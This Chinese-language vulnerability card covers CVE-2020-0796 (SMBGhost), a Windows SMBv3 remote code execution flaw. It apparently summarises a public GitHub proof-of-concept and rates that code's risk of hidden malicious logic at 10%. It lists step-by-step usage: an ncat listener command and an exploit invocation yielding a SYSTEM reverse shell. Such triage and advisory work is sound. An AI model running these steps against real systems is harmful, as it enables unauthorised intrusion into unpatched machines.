 ## CVE-2020-0796 (SMBGhost)

**漏洞编号:** CVE-2020-0796

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Microsoft Windows SMBv3

**危害等级:** 高危，未经身份验证的攻击者可以远程执行任意代码

**影响版本:** Windows 10 Version 1903, 1909 和 Windows Server, version 1903, 1909

**利用条件:** 目标系统需要启用SMBv3协议且未打补丁，攻击者需要能够通过网络访问目标系统的445端口。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2020-0796，又名SMBGhost，是Microsoft SMBv3协议中的一个远程代码执行漏洞。该漏洞存在于SMBv3处理特定请求的方式中，允许未经身份验证的攻击者通过发送特制的SMB数据包到易受攻击的SMBv3服务器，从而在目标系统上执行任意代码。

**有效性：**
根据漏洞库信息和搜索结果，存在公开可用的PoC代码，并且CISA也发布了警报，表明存在针对未修补系统的实际攻击。提供的PoC代码看起来是一个用于演示目的的完整利用程序，它包含计算目标偏移量的脚本以及实际的漏洞利用脚本。

**投毒风险：**
该PoC代码的投毒风险评估为10%。理由如下：
*   代码来源：虽然代码基于ZecOps的PoC，但经过了修改和重新分发，存在引入恶意代码的可能性。
*   复杂性：该漏洞利用涉及复杂的内存操作和协议交互，这使得在代码中隐藏恶意逻辑成为可能。
*   权限要求：成功利用此漏洞会导致系统级别的代码执行，这意味着任何植入的后门或恶意代码都将以最高权限运行。
*   文件内容分析：`README.md`文件描述了如何设置攻击机和目标机，并提供了详细的步骤来计算偏移量和执行漏洞利用。虽然描述看起来是良性的，但仔细检查`SMBleedingGhost.py`脚本是必要的，以确保其中没有隐藏的恶意代码。例如，在建立反向shell连接后，可能会执行额外的命令以下载和执行其他payload。

**利用方式：**
1.  **环境准备：**搭建攻击机和目标机（目标机为存在漏洞的Windows 10/Server版本，禁用防火墙）。
2.  **偏移量计算：**在目标机上运行`calc_target_offsets.bat`脚本，获取内存偏移量。
3.  **脚本配置：**在攻击机上，用目标机计算出的偏移量更新`SMBleedingGhost.py`脚本中的`OFFSETS`变量。
4.  **监听端口：**在攻击机上使用Netcat(`ncat -lvp 4321`)设置监听端口。
5.  **执行漏洞利用：**在攻击机上运行`python SMBleedingGhost.py <target_ip> <attacker_ip> <port>`，其中`<target_ip>`是目标机的IP地址，`<attacker_ip>`是攻击机的IP地址，`<port>`是监听端口。
6.  **获取Shell：**如果漏洞利用成功，攻击机将收到来自目标机的反向Shell，并获得SYSTEM权限。

**项目地址:** [tdevworks/CVE-2020-0796-SMBGhost-Exploit-Demo](https://github.com/tdevworks/CVE-2020-0796-SMBGhost-Exploit-Demo)

**漏洞详情:** [CVE-2020-0796](https://nvd.nist.gov/vuln/detail/CVE-2020-0796)
